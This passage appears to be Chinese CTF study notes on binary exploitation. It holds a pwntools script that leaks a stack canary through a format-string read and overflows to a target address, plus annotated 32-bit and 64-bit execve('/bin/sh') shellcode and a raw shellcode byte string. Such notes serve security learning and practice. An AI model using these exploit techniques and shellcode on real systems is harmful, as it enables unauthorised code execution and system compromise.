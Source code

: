 查找canary:

```python
elf = ELF('./pwn')
shell = elf.sym['__stack_check']
io.recv()
payload = "%15$x"
io.sendline(payload)
canary = int(io.recv(),16)
log.info("Canary : 0x%x" % canary)
payload = cyclic(0x28) + p32(canary) + 'A'*0xC + p32(shell)
io.sendline(payload)

```



#### shellcode：

##### 常见代码：

一段执行命令，一般由机械码构成，用于获取shell，和特殊东西。

```python
#汇编代码x86-架构
shellcode = asm(shellcraft.sh())
#32位
#:execve("/bin/sh", NULL, NULL)
shellcode=
""
push 0x68
push 0x732f2f2f   #这是字符串 "/bin/sh" 的前半部分字符的逆序表示，即 "sh//"。
push 0x6e69622f   #这是字符串 "/bin/sh" 的后半部分字符的逆序表示，即 "/bin"。
#这行代码将栈顶的地址（即字符串 "/bin/sh" 的起始地址）复制给寄存器 ebx 
mov ebx,esp
#这两行代码使用异或操作将 ecx 和 edx 寄存器的值设置为零。
xor ecx,ecx
xor edx,edx
#这两行代码将值 11 （ 0xb ）压入栈中，然后从栈中弹出到寄存器 eax
push 0xB 
pop eax
#这行代码触发中断 0x80 ，这是Linux系统中用于执行系统调用的中断指令。通过设置适当的寄存器值（ eax 、 ebx 、 ecx 、 edx ）， int 0x80 指令将执行 execve("/bin/sh", NULL, NULL) 系统调用，从而启动一个新的 shell 进程。
int 0x80
""

#64位

shellcode=
""
push rax
xor rdx, rdx
xor rsi, rsi
mov rbx,'/bin//sh'
push rbx
push rsp
pop rdi
#这行代码将 al 寄存器设置为值 59 , 59 是 execve 系统调用的系统调用号。
mov al, 59
#这行代码触发系统调用。
syscall
""

#32位短shellcode
#64位短shellcode
shellcode_x641="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
```